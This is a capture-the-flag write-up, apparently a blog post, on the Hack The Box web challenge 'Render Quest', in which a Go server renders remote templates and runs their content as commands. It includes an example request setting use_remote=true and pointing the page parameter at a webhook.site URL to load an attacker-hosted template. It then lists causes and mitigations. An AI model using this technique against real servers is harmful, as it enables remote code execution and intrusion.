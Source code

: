 ```yaml
---
layout: single
classes: #wide
title: "Render Quest"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [ctf, htb]
tags: [burp, web injection, go]
---
```

# Render Quest:
![title](/assets/images/renderquest/titleImage.png)

<b>Challenge Description</b>:  
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!  

Going into this challenge I had never done 
any of the challenges page. I wanted to see how these were 
different compared to the machine tab. The main difference I saw
between this format and the machines, is you are not connected
directly to the machine. This critical factor posed to be an issue
throughout this box due to my not knowing how to expose my machine
corectly.  

Upon starting this challenge (post install and extraction of the zip)
, you are presented with the layout of the page. Because there was 
an input box I tried all sorts of things from XSS to SQLi. This resulted
in an error message each time. 

# Input Validation Error

Next, I looked over the source code a little further and to my surprise
there was a big input validation error.

![badFN](/assets/images/renderquest/badFunction.png)  

As you can see in the image above, there is no input validation here.
When the server fetches the info, it sends whatever what in that
request directly to the server. This means, when you click the render
button it takes anything in the file, reads it and executes it as a 
shell command.

Now, you might be thinking "It doesn't matter if you can execute it
if the code is never read". This would be true, however on line 126
it allows us to manually set the remote value to true in the url.

![manualRemote](/assets/images/renderquest/manualRemoteSet.png)  

![ifTrue](/assets/images/renderquest/ifRemoteTrue.png)  

So, if use_remote is set to true in the url it will read the remote file
(eg: the template) that is provided to the server.   

Example url: http://83.136.253.251:49423/render?use_remote=true&page=https://webhook.site/2865e172-7114-494e-a961-0859118ac2a8



# Exploitation
Now that we know that there is poor input handling and the 
template we provide will be read we are able to 
take advantage of it. Due to us not having direct connection to the 
machine vpn we have 2 choices. Create a webhook or expose our
own machines ip and port to send the mallicious file. Deciding to go 
with the first option I create a payload using webhook.site and it
looks like this:

![webhook](/assets/images/renderquest/webhook.png)  

With a result of:

![output1](/assets/images/renderquest/output1.png)  

Now all that's needed is to change the payload to get the flag.  

Hehe no spoilers XD

# Explanation Of Why It Works
Im adding this part in so that we can learn together and know what not
to do in order to prevent things like this happening on our own 
networks.  
<b>Reason it worked:</b>
* No input validation when handling user input
* Go hosting a webserver using templates vulnerability 
    - Vulnerability can be found [here](https://docs.fluidattacks.com/criteria/fixes/go/422/)
* Function directly executes bash commands  

<b>How to mitigate:</b>
* Add input validation
* Check for go patches, or get rid of templates all together if no longer needed
* Don't directly execute bash commands within your unsanitzied code